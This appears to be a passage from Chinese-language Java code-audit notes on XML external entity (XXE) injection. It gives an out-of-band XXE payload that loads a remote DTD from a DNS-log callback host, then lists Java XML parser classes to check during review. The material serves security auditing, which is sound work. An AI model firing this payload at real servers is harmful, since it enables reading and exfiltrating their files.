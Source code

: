 dnslog：

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://1.xxx.ceye.io/a.dtd">
%remote;
]>
<comment>
  <text>test&send;</text>
</comment>
```

![image-20210831105045729](pic/代码审计总结/image-20210831105045729.png)

![image-20210831105114192](pic/代码审计总结/image-20210831105114192.png)

### 审计思路

Java中XML的四种解析方式：DOM解析；SAX解析；JDOM解析；DOM4J解析

https://www.cnblogs.com/longqingyang/p/5577937.html

因此我们关注这些解析方式中的关键函数：

```
javax.xml.parsers.DocumentBuilderFactory;
javax.xml.parsers.SAXParser
javax.xml.transform.TransformerFactory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
...
```
